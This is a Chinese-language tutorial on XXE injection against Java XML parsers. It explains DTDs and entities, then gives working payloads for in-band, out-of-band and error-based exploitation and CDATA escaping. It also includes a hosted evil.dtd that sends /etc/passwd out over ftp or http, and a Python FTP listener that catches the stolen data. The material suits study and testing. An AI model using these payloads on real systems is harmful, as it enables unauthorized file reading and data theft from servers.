









# XXE概要

## XML入门学习

### XML

XML （extensible markup language）表示可扩展的标记语言，XML被设计用于数据的传输和存储，同时具备可读性，通常的使用场景有 API交互、UI布局、应用配置、RSS订阅等 svg pdf 

我们先快速阅览下面这个简单的例子：首行数据指明了这是一个XML文档，并申明其版本；student 标签为这里的根标签，其下有两个子标签。标签名称大小写敏感，且标签文本内中不能直接填写 `<>&'"`这些特殊字符。

```xml
<?xml version="1.0"?>
<student>
    <name>May</name>
    <age>15</age>
</student>

```

### DTD

XML文档中可以通过DTD（document type Definition)来定义一系列的文档标记语法，其声明格式大致如下（字符串值表示时需使用双引号或单引号包裹且前后一致）：

```
<!DOCTYPE name [ internalSubset ] >

<!DOCTYPE name ExternalID  >

<!DOCTYPE name ExternalID [ subset ]  >

ExternalID ，外部标识 ::= (SYSTEM "systemLiteral" | PUBLIC "publicLiteral" "systemLiteral")
systemLiteral ，实体系统ID ；publicLiteral，即互联网公共ID  ，这两个也可称为 systemId publicId。

internalSubset ::=  (markupDecl |PEReference )*
markupDecl，标记申明 ::= (elementdecl | AttlistDecl | EntityDecl | NotationDecl | PI | Comment)
PEReference，参数实体引用 ::= %name;

```

`internalSubset`中可定义各种标记：`ELEMENT` `ATTLIST` `ENEITY`  等 ， ExternalID 中则可申明引用外部XML/DTD 。

下面我们通过几个例子理解DTD的格式：

```xml
<!DOCTYPE root SYSTEM "http://192.168.168.128/test.dtd">

<!DOCTYPE root PUBLIC "PID" "http://192.168.168.128/test.dtd">

<!DOCTYPE root[<!ENTITY entity "str">]>

<!DOCTYPE root SYSTEM "http://192.168.168.128/test.dtd"[<!ENTITY entity "str">]>

```


### Entity

DTD的各标记中我们主要关注Entity，entity在XML文档中用于展现文本等数据，类似变量，我们可以在DTD中定义赋值并且在XML文档中的使用它。

entity的格式大致如下（字符串值表示时需使用双引号或单引号包裹且前后一致）：

```
EntityDecl ::= GEDecl | PEDecl

GEDecl，普通实体 ::= <!ENTITY name "EntityDef">
PEDecl，参数实体 ::= <!ENTITY % name "PEDef">

EntityDef，普通实体值 ::= EntityValue | (ExternalID NDataDecl?)
PEDef，参数实体值 ::= EntityValue | ExternalID

ExternalID ，外部标识 ::= (SYSTEM "systemLiteral" | PUBLIC "publicLiteral" "systemLiteral")
systemLiteral ，实体系统ID ；publicLiteral，即互联网公共ID  ，这两个也可称为 systemId publicId。

EntityValue ::=  普通文本 | PEReference，%name; | EntityReference，&name; 

```

从entity格式定义中可以了解到存在普通实体与参数实体两种情况，且这两种实体都可以引入外部XML/DTD文档。另外，我们把引入了外部XML/DTD文档的实体叫做`外部实体`。

```
<!ENTITY entity "str">

<!ENTITY entity SYSTEM "http://192.168.168.128/test.dtd">

<!ENTITY entity PUBLIC "PID" "http://192.168.168.128/test.dtd">]

<!ENTITY % entity "str">

<!ENTITY % entity SYSTEM "http://192.168.168.128/test.dtd">

<!ENTITY % entity PUBLIC "PID" "http://192.168.168.128/test.dtd">]

```

在定义了实体后，我们需要引用它来进行使用，参数实体引用`PEReference`的格式为`%name；`，普通实体引用`EntityReference`格式为`&name;`，前者只能在DTD中使用，后者可在XML文档中各字符串数据中使用。

下面例子定义了一个普通实体，并在XML body中引用了它，如果服务器在处理了XML文档后并回显student.name，我们就可看到student.name值为May：

```xml
<?xml version="1.0"?>
<!DOCTYPE student [
	<!ENTITY  name "May">
]>
<student>
    <name>&name;</name>
    <age>15</age>
</student>

```

我们将例子中的实体改为外部实体，systemId设置为本地文件，在java中可以用来进行文件读取：

```xml
<?xml version="1.0"?>
<!DOCTYPE student [
   <!ENTITY name SYSTEM "file:///etc/passwd">
]>
<student>
    <name>&name;</name>
    <age>15</age>
</student>

```

关于参数实体我们在后面的XXE漏洞利用详情中还会具体讲到它。


## XXE 

### 场景及利用方式

`X`ML E`x`ternal `E`ntity Injection，即我们前文所说的外部实体引发的问题，通常根据利用场景或利用方式可分为 

- 回显（in-band）
- 基于报错 (error based)
- 带外 (out of band) .









### 数据带外

如果我们没有找到回显标签数据的接口，或是在Execel等特殊场景下无法回显数据，可以尝试通过带外的方式进行漏洞利用。

我们先了解一下如何通过实体定义其他实体：

```dtd
<?xml version="1.0"?>
<!DOCTYPE root[
	<!ENTITY % parameter_entity "<!ENTITY general_entity 'PwnFunction'>">
	%parameter_entity;
]>
<root>&general_entity;</root>

```

实际上，上面的DTD达到下面DTD的效果，即通过参数实体，我们可以在XML中以字符串方式“eval”一个实体：

```
<?xml version="1.0"?>
<!DOCTYPE root[
	<!ENTITY % parameter_entity "<!ENTITY general_entity 'PwnFunction'>">
	<!ENTITY general_entity 'PwnFunction'>
]>
<root>&general_entity;</root>

```

我们可以尝试通过该方式定义实体send，让其带上文件内容：

```dtd
<?xml version="1.0"?>
<!DOCTYPE root[
	<!ENTITY % passwd SYSTEM "file:///etc/passwd">
	<!ENTITY % wrapper "<!ENTITY send SYSTEM  'http://127.0.0.1/?%passwd;'>">
	%wrapper;
]>
<root>&send;</root>

```

但当我们发送给服务器时可以发现会有如下报错信息：内部DTD中的markup（即ENTITY ATTLIST 等）不能使用 参数实体的引用。

```
{"timestamp":"...","status":500,"error":"Internal Server Error","message":"Error on line 4 of document  : The parameter entity reference \"%passwd;\" cannot occur within markup in the internal subset of the DTD. Nested exception: The parameter entity reference \"%passwd;\" cannot occur within markup in the internal subset of the DTD.","path":"/XXETest/dom4j"}
```

在XML标准文档中也可以看到确有这一规范，但其也指明了通过外部DTD可绕过这一限制：

https://www.w3.org/TR/REC-xml/#wfc-PEinInternalSubset

In the internal DTD subset, parameter-entity references *must not* occur within markup declarations; they may occur where markup declarations can occur. (This does not apply to references that occur in external parameter entities or to the external subset.)

首先将`evil.dtd` 存放于VPS HTTP服务器上

```dtd
	<!ENTITY % passwd SYSTEM "file:///etc/passwd">
	<!ENTITY % wrapper "<!ENTITY send SYSTEM  'ftp://127.0.0.1/%passwd;'>">
	%wrapper;

```

POC如下：

```dtd
<?xml version="1.0"?>
<!DOCTYPE root[
	<!ENTITY % dtd SYSTEM "http://127.0.0.1/evil.dtd">
	%dtd;
]>
<root>&send;</root>

```

如果不清楚服务器解析哪些标签数据，我们可只使用参数实体：

```dtd
<!ENTITY % passwd SYSTEM "file:///etc/passwd">
<!ENTITY % wrapper "<!ENTITY &#x25; send SYSTEM  'ftp://127.0.0.1/%passwd;'>">
%wrapper; %send;
```

```dtd
<?xml version="1.0"?>
<!DOCTYPE root[
	<!ENTITY % dtd SYSTEM "http://127.0.0.1/evil.dtd"> 
	%dtd;
]>

```


### 报错型

在Java中，当我们的 systemId 的协议为 `jar://`、`file://` 或前缀为 `url:` 时，文件不存在或其他错误导致程序抛出异常时，异常数据会包含该 systemid  （ url不是协议，后续需要跟file http 等），当如果服务器返回了这个 异常数据，我们就通过这个抛异常来进行XXE文件读取漏洞利用。



error based 通常可在如下场景使用：

- 漏洞环境无法外联，但此时需要结合合适的本地DTD文件进行漏洞利用
- 没有找到回显接口，JDK版本较高，HTTP/FTP带外数据不能有换行符号


如在JDK8u_301下，我们通过HTTP/FTP是无法读取到 /etc/passwd，通过以下POC，在有报错信息的情况下，我们可以类似利用回显型XXE一样进行文件读取：

```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; send SYSTEM 'url://%file;'>">

```

```dtd
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % remote_dtd SYSTEM "http://127.0.0.1/err.dtd">
%remote_dtd;
%eval;%send;
]>

```




下面我们说说漏洞环境无法外联的情况下的利用方式

首先内部DTD会优先于外部DTD先被XML处理器解析，而实体的定义不会被覆盖：


`/tmp/foo.dtd` ，由于需要发生多次错误，这个异常才会被抛出来，我们这里定义两个不同名称的element，并且在其定义中使用 PEReference

```dtd
<!ENTITY foo 'foo'>

<!ELEMENT ele1 (%foo;)>

<!ELEMENT ele2 (%foo;)>
```

我们首先引用了外部DTD文档，随后定义实体`foo`，本地DTD的实体先被解析存储且不会/tmp/foo.dtd中的覆盖

```
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % local_dtd SYSTEM "file:///tmp/foo.dtd">
<!ENTITY % foo 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
  	
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; trick SYSTEM &#x27;url://&#x25;file;&#x27;>">
        &#x25;trick;&#x25;eval;
        
        <!ELEMENT aa (bb'>

    %local_dtd;

]>

<root></root>
```

当XML解析器解析/tmp/foo.dtd时，则会拼接文本数据，再进行eval解析，`ele1` 则解析成如下文本，最后又通过参数实体 trick 触发报错信息，回显数据

```dtd
<!ELEMENT ele1 (aaa)>
        <!ENTITY % file SYSTEM "file:///etc/passwd"">
  	
<!ENTITY % eval "<!ENTITY &#x25; trick SYSTEM 'url://%file;'>">
        %trick;%eval;
        
        <!ELEMENT aa (bb)>
```


实战中可将 /tmp/foo.dtd 替换为  `/usr/share/xml/fontconfig/fonts.dtd` ，该文件在ubuntu系统中常见



### 数据转义

XXE漏洞利用中，我们尝试通过回显的方式读取一些文本文件时可能会失败。

使用如下方式读取/etc/fstab文件时会失败：

```dtd
<?xml version="1.0"?>
<!DOCTYPE root[
	<!ENTITY file SYSTEM "file:///etc/fstab"
]>
<root>&file;</root>
```

```
{"timestamp":"2023-05-09T07:41:05.693+0000","status":500,"error":"Internal Server Error","message":"Error on line 4 of document  : The declaration for the entity \"file\" must end with '>'. Nested exception: The declaration for the entity \"file\" must end with '>'.","path":"/XXETest/dom4j"}
```

失败原因为XML解析器将文件作为XML/DTD文档进行引用，当我们引用的文档不符合XML格式时造成本次解析处理失败



解决思路就是将待读取的文件内容使用CDATA进行包裹，从而将其中的特殊字符转义。

`cdata.dtd`

```
<!ENTITY % file SYSTEM "file:///etc/fstab">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]">
<!ENTITY all '<![CDATA[%file;]]>'>

```

这次我们的XML文档稍微变化一下：

```
<?xml version="1.0"?>
<!DOCTYPE root PUBLIC "" "http://127.0.0.1/cdata.dtd">
<root>&all;</root>

```




### 语言及限制

JAVA语言有：

- FTP：  >=JDK8_131 FTP命令不能有换行，>=JDK8_212 FTP URL不能有换行
- netdoc ：>=JDK10 废弃该协议
- http/https：基本都不允许有换行符号
- jar：用于读取压缩文件内的文件，也可用于上传文件，上传的文件被存放于临时目录




## 参考

https://www.w3.org/TR/REC-xml

https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/

https://www.youtube.com/watch?v=gjm6VHZa_8s&ab_channel=PwnFunction

FTP服务器，python2:

```python
from __future__ import print_function
import socket

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind(('0.0.0.0',21))
s.listen(1)
print('XXE-FTP listening ')
conn,addr = s.accept()
print('Connected by %s',addr)
conn.sendall('220 test FTP\r\n')
stop = False
while not stop:
    dp = str(conn.recv(1024))
    if dp.find("USER") > -1:
        conn.sendall("331 password please - version check\r\n")
    else:
        conn.sendall("230 more data please!\r\n")
    if dp.find("RETR")==0 or dp.find("QUIT")==0:
        stop = True
    if dp.find("CWD") > -1:
        print(dp.replace('CWD ','/',1).replace('\r\n',''),end='')
    else:
        print(dp)

conn.close()
s.close()

```


